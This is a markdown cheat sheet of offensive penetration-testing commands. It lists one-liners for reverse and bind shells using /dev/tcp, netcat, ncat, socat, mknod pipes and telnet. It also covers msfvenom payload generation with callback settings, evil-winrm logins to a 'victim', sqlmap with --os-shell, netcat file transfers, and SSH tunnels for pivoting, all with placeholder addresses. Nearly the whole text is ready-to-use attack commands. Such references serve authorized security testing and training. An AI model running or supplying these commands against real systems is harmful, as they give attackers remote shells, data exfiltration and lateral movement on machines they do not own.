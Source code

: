 # [/dev/tcp](https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/):
#### `sh -i >& /dev/tcp/X.X.X.X/YYY 0>&1`
  * [archived](https://web.archive.org/web/20190920152858/https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/)

# [evil-winrm](https://github.com/Hackplayers/evil-winrm):
#### `evil-winrm -i X.X.X.X -u <usenamer> -p <password>`
#### `evil-winrm -i X.X.X.X -u <username> -p -s <path/to/ps1>`
  * -s allows yoiu to load powershell scripts from Kali to the victim

# [mknod](https://man7.org/linux/man-pages/man1/mknod.1.html):
#### `mknod /tmp/backpipe p`
#### `/bin/sh 0</tmp/backpipe | nc X.X.X.X YYY 1>/tmp/backpipe`
#### `mknod /tmp/backpipe p && telnet X.X.X.X YYY 0</tmp/backpipe | /bin/sh 1>/tmp/backpipe`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

# [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows`
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows -b "\x00\x0a\x0d"`
  * -p chooses the payload
  * -n prepends a nop sled
  * -a chooses the architecture
  * -b defines bad chars so it won't use them (as a string)
  * -o is the output file
  * -f defines the output format (for instance, a c file)
  * --platform chooses the platform (for instance, windows)
  * LHOST handles the callback ip
  * LPORT handles the callback port

# [ncat](https://linux.die.net/man/1/ncat):
#### `ncat -lnvp YYY`
#### `ncat X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `ncat -lnvp --ssl --allow Z.Z.Z.Z YYY`
#### `ncat X.X.X.X YYY -ssl (/bin/sh or cmd.exe)`
  * basically a netcat rewrite with some updated features
  * --ssl will encrypt the traffic using a temporary key
  * --allow will only allow connections from the specified host

# [netcat](https://linux.die.net/man/1/nc):
#### `nc -lnvp YYY`
#### `nc X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `nc -lnvp YYY -e (/bin/sh or cmd.exe)`
#### `nc X.X.X.X YYY`
#### `nc -lnvp YYY > (name.sh or name.exe)`
#### `nc X.X.X.X YYY < (name.sh or name.exe)`
  * -e binds a command
  * -l listens
  * -p is the source port
  * -n prevents DNS lookups on addresses, hostnames, and ports

# [socat](https://127.0.0.1):
#### `socat - TCP4:X.X.X.X:YYY`
#### `socat TCP4-listen:YYY STDOUT`
#### `socat TCP4:X.X.X.X:YYY EXEC:(/bin/bash or cmd.exe)`
#### `socat TCP4-listen:YYY,fork file:name.txt`
#### `socat TCP4:X.X.X.X:YYY file:name.txt,create`

# [sqlmap](https://web.archive.org/web/20191201191308/https://github.com/sqlmapproject/sqlmap/wiki/Introduction):
#### `sqlmap -u X.X.X.X --crawl=1`
#### `sqlmap -u X.X.X.X/resource.php --dbms=mysql --os-shell`
  * -u specifies the url of the target
  * -l allows you to input an intercept file from burp
  * -f does dbms fingerprinting
  * --crawl does enumeration
  * --os-shell tries to get an interactive shell

# [ssh](https://linux.die.net/man/1/ssh):
#### `plink -l <username> -pw <password> X.X.X.X -R YYY:A.A.A.A:BBB`
#### `ssh -D YYY <username>@X.X.X.X`
  * -R binds a remote server's (X.X.X.X) port (YYY) to the local server's (A.A.A.A) port (BBB) using the remote server's credentials
  * -D specifies a local dynamic application-level port forwarder for tunneling

# [telnet](https://linux.die.net/man/1/telnet):
#### `nc -nlvp YYY`
#### `nc -nlvp ZZZ`
#### `telnet X.X.X.X YYY | /bin/sh | telnet X.X.X.X ZZZ`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
  * Run the top two commands on the attacker machine, then the bottom command on the victim
  * Type commands into the first shell window, then read the output from the second shell window

